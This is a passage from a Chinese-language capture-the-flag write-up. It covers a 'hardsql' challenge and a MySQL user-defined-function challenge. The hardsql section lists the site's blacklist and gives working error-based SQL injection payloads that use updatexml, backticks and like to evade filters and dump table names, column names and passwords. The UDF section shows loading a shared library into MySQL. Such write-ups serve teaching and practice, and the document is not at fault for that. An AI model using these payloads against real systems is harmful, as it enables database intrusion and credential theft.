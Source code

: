 最后拿到flag



### hardsql

可以堆叠,可以报错

黑名单:`%00, ,%3d,select|from\B*,union,\*,rand,!,hex,substr`

version:` 10.3.18-MariaDB `

利用括号和反引号来绕过,select后面不能有空格的限制,利用报错来绕过union被ban的限制,用like来绕过=被ban的限制,用right来代替substr



```
-(updatexml(1,concat(0x7e,(select(group_concat(table_name))from`information_schema`.`tables`where`TABLE_SCHEMA`like(%27geek%27)),0x7e),1))%23
#H4rDsq1
-(updatexml(1,concat(0x7e,(select(group_concat(column_name))from`information_schema`.`columns`where`table_name`like(%27H4rDsq1%27)),0x7e),1))%23
-(updatexml(1,concat(0x7e,(select(right(group_concat(password),100))from`H4rDsq1`),0x7e),1))%23
-(updatexml(1,concat(0x7e,(select(right(group_concat(password),30))from`H4rDsq1`),0x7e),1))%23
```

` flag{430803d9-a16f-402f-93ae-c361c1adaf06} `

## jarvisoj

### re?

看wp。

百度一下发现udf(user defined function)是mysql的自定义函数

所以要导入到mysql中。

步骤

```mysql
> show variables like "%plugin%";
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+

把 udf.so 移到该目录下

> create function help_me returns string soname 'udf.so';
> select help_me();
+---------------------------------------------+
| help_me()                                   |
+---------------------------------------------+
| use getflag function to obtain your flag!!  |
+---------------------------------------------+

> create function getflag returns string soname 'udf.so';
> select getflag();
+------------------------------------------+
| getflag()                                |
+------------------------------------------+
| PCTF{Interesting_U5er_d3fined_Function}  |
+------------------------------------------+

> drop function help_me;
> drop function getflag;
```
